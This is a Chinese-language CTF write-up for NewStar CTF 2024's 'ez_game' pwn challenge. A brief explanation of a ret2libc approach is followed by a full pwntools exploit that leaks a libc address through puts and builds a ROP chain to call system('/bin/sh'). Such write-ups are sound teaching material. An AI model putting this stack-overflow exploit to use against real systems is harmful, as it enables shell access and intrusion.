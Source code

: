 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# ez_game

![func 函数](/assets/images/wp/2024/week2/ez-game_1.png)

明显的栈溢出且没有后门函数

再 checksec 一下，没有开启 pie

![checksec 的结果](/assets/images/wp/2024/week2/ez-game_2.png)

直接打 ret2libc<span data-desc>（但是得进行栈对齐）</span>

1.先通过 puts 泄露出 puts 地址，通过 puts 地址与 libc 基地址的偏移得到 libc 基地址，并返回 `main` 函数进行第二次溢出，实现 getshell

2.构建 `system("/bin/sh")` 取 shell

:::tip 提示
可以用 ret 地址进行栈对齐
:::

EXP:

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

ifremote = 0
if ifremote == 1:
    io = remote('0.0.0.0', 9999)
else:
    io = process('./attachment')

elf = ELF('./attachment')
# libc=ELF("./libc-2.31.so")
libc = elf.libc

# gdb.attach(io)
# pause()

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
ret_addr = 0x0000000000400509

payload = b'a'*0x58+p64(0x0000000000400783)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.sendline(payload)
io.recvuntil(b'\x0a')
puts_addr = u64(io.recv(6).ljust(8, b'\x00'))
print("puts_addr======================>", hex(puts_addr))

libc_base = puts_addr-libc.sym['puts']
system_addr = libc_base+libc.sym['system']
bin_sh_addr = libc_base+0x1b45bd

payload = b'a'*0x58+p64(0x0000000000400783)+p64(bin_sh_addr)+p64(ret_addr)+p64(system_addr)
io.recvuntil(b'Welcome to NewStarCTF!!!!\n')
io.send(payload)

io.interactive()
```
